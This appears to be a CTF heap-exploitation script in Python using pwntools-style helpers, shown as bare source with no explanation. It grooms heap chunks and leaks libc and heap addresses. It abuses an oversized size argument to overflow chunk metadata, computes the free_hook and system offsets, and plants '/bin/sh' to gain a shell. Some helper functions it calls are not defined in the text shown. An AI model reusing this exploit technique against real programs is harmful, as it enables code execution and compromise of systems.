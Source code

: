 ```python
def delete(idx):
	cho(3)

def app(idx, sz, data):
	cho(4)
	sla('index: ', str(idx))
	sla('size: ', str(sz))
	sla('data: ', data)

def show(idx):
	cho(5)
	sla('index: ', str(idx))


add()
add()
add()

add()
add()
add()

add()
add()
add()

edit(1,0,0x420+0x30)
edit(0,0,0x18)

edit(4,0,0x390+0x40)
edit(3,0,0x18)

edit(1,0,0x420+0x40)
edit(0,0,0x28)
edit(2,0,0x420)


edit(4,0,0x390+0x40)
edit(3,0,0x28)
edit(5,0,0x390)


show(2)
ru('data: ')
libcbase = leak_address() - 0x1ebbe0
free_hook = libcbase+0x1eeb28
system = libcbase+0x55410
print(hex(libcbase))

app(4,0xffff03e0,b'a'*0x3d8+b'b'*8)
show(4)
ru(b'b'*8)
heap = leak_address() - 0x580
print(hex(heap))

app(4,0xffff0fff,b'a'*0x3d8+p64(0x21)+p64(heap)+p32(0))

edit(6,0,0x18)
edit(7,0,0x18)

app(6,8,'/bin/sh\x00')
app(7,16,p64(heap-0x20)+p32(0)+p32(0x100))

```
